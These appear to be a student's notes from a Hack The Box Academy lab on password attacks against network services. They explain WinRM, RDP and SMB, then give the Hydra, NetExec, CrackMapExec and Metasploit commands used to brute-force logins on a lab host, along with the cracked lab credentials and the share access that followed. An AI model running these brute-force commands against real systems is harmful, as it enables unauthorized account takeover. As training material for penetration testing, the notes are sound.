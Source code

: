 

During our penetration tests, every computer network we encounter will have services installed to manage, edit or create content. All of these services are hosted using specific permissions and are assigned to specific users. Apart from web applications these services include

|   |   |   |
|---|---|---|
|FTP|SMB|NFS|
|IMAP/POP3|SSH|MySQL/MSSQL|
|RDP|WinRM|VNC|
|Telnet|SMTP|LDAP|
For further reading on many of these services, check out the [Footprinting](https://academy.hackthebox.com/course/preview/footprinting) module on HTB Academy.




## WinRM
Window Remote Management (WinRM) is the Microsoft implementation of the network protocol Web Services Management protocol (WS-Management). Which is a network protocol based on XML web services using the Simple Object Access Protocol (SOAP) for remote management of windows systems. It takes care of the communication between[Web-Based Enterprise Management](https://en.wikipedia.org/wiki/Web-Based_Enterprise_Management) (`WBEM`)) and the[Windows Management Instrumentation](https://docs.microsoft.com/en-us/windows/win32/wmisdk/wmi-start-page) (`WMI`), which can call the [Distributed Component Object Model](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dcom/4a893f3d-bd29-48cd-9f43-d9777a4415b0) (`DCOM`).


However for security reason WinRM must be activate and configured manually in windows 10. Therefore it depends heavily on the environment security in a domain or local network where we want to use WinRM. In Most cases one uses certificates or only specific authentication mechanisms to increase its security. WinRM uses the TCP ports `5985` (`HTTP`) and `5986` (`HTTPS`).

A handy tool that we can use for our password attacks is [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec), which can also be used for other protocols such as SMB, LDAP, MSSQL, and others. We recommend reading the [official documentation](https://web.archive.org/web/20231116172005/https://www.crackmapexec.wiki/) for this tool to become familiar with it.

PORT 5985 is a WinRM port even though it says HTTPAPI



#### CrackMapExec Usage

The general format for using CrackMapExec is as follows:

Network Services

```shell-session
JackTheWizard@htb[/htb]$ crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```

Network Services

```shell-session
JackTheWizard@htb[/htb]$ crackmapexec winrm 10.129.42.197 -u user.list -p password.list

WINRM       10.129.42.197   5985   NONE             [*] None (name:10.129.42.197) (domain:None)
WINRM       10.129.42.197   5985   NONE             [*] http://10.129.42.197:5985/wsman
WINRM       10.129.42.197   5985   NONE             [+] None\user:password (Pwn3d!)
```

The appearance of `(Pwn3d!)` is the sign that we can most likely execute system commands if we log in with the brute-forced user. Another handy tool that we can use to communicate with the WinRM service is [Evil-WinRM](https://github.com/Hackplayers/evil-winrm), which allows us to communicate with the WinRM service efficiently.


You can use 
`use auxiliary/scanner/winrm/winrm_login` 

To bruteforce the login in metasploit


#### Evil-WinRM

#### Installing Evil-WinRM

Network Services

```shell-session
JackTheWizard@htb[/htb]$ sudo gem install evil-winrm

Fetching little-plugger-1.1.4.gem
Fetching rubyntlm-0.6.3.gem
Fetching builder-3.2.4.gem
Fetching logging-2.3.0.gem
Fetching gyoku-1.3.1.gem
Fetching nori-2.6.0.gem
Fetching gssapi-1.3.1.gem
Fetching erubi-1.10.0.gem
Fetching evil-winrm-3.3.gem
Fetching winrm-2.3.6.gem
Fetching winrm-fs-1.3.5.gem
Happy hacking! :)
```

#### Evil-WinRM Usage

Network Services

```shell-session
JackTheWizard@htb[/htb]$ evil-winrm -i <target-IP> -u <username> -p <password>
```





## Remote Desktop Protocol (RDP)

Microsoft's [Remote Desktop Protocol](https://docs.microsoft.com/en-us/troubleshoot/windows-server/remote/understanding-remote-desktop-protocol) (`RDP`) is a network protocol that allows remote access to Windows systems via `TCP port 3389` by default. RDP provides both users and administrators/support staff with remote access to Windows hosts within an organization. The Remote Desktop Protocol defines two participants for a connection: a so-called terminal server, on which the actual work takes place, and a terminal client, via which the terminal server is remotely controlled. In addition to the exchange of image, sound, keyboard, and pointing device, the RDP can also print documents of the terminal server on a printer connected to the terminal client or allow access to storage media available there. Technically, the RDP is an application layer protocol in the IP stack and can use TCP and UDP for data transmission. The protocol is used by various official Microsoft apps, but it is also used in some third-party solutions.



#### xFreeRDP

Network Services

```shell-session
JackTheWizard@htb[/htb]$ xfreerdp /v:<target-IP> /u:<username> /p:<password>
```




## SMB

Server Message Block (SMB) is a protocol responsible for transferring data between a client and a server in Local Area Networks. It is used to implement file and directory sharing most NAS's use SMB to let you access stuff. Whenever you see \\*IP*\shared you can see its SMB

Windows can also use NFS which is a seperate protocol
SMB can be compared to `NFS` for Unix and Linux for providing drives on local networks.

SMB is also known as [Common Internet File System](https://cifs.com/) (`CIFS`). It is part of the SMB protocol and enables universal remote connection of multiple platforms such as Windows, Linux, or macOS. In addition, we will often encounter [Samba](https://wiki.samba.org/index.php/Main_Page), which is an open-source implementation of the above functions. For SMB, we can also use `hydra` again to try different usernames in combination with different passwords.


We can use metasploit module

```shell-session
auxiliary/scanner/smb/smb_login
``` 

to bruteforce login

I download the username.list and password.list

nxc winrm 10.129.81.110 -u usernames.list -p passwords.list


I used netexec and got the user john

Bruteforce winrm
nxc winrm 10.129.81.110 -u usernames.list -p passwords.list


Bruteforce ssh 

hydra -L username.list -P password.list ssh://10.129.81.110

22][ssh] host: 10.129.81.110   login: dennis   password: rockstar


We also use Hydra to bruteforce RDP


hydra -L username.list -P password.list rdp://10.129.81.110 


[3389][rdp] host: 10.129.81.110   login: chris   password: 789456123


then use xfreerdp to login 

xfreerdp /v:10.129.81.110 /u:chris /p:789456123


To bruteforce SMB i just use

nxc smb 10.129.81.110 -u username.list -p password.list


Bruteforce ssh 

hydra -L username.list -P password.list ssh://10.129.81.110
Bruteforce winrm
nxc winrm 10.129.81.110 -u usernames.list -p passwords.list

Bruteforce RDP:
hydra -L username.list -P password.list rdp://10.129.81.110 


BruteForce SMB:
nxc smb 10.129.81.110 -u username.list -p password.list


john:november
https://www.netexec.wiki/smb-protocol/scan-for-vulnerabilities


I check shares with 

nxc smb 10.129.81.110 -u John -p 'november' --shares

Then this smbclient command worked for me

smbclient //10.129.81.110/CASSIE -U John%november


Since the john user wasnt showing anything and I saw the CASSIE share in here I just bruteforced cassie s password


haxor@skid pen]$ smbclient -U John \\\\10.129.81.110\\C$
Can't load /etc/samba/smb.conf - run testparm to debug it
Password for [WORKGROUP\John]:
tree connect failed: NT_STATUS_ACCESS_DENIED
[haxor@skid pen]$ smbclient //10.129.81.110/CASSIE -U John%november
Can't load /etc/samba/smb.conf - run testparm to debug it
Try "help" to get a list of possible commands.
smb: \> dir
NT_STATUS_ACCESS_DENIED listing \*
smb: \> get flag.txt
NT_STATUS_ACCESS_DENIED opening remote file \flag.txt
smb: \>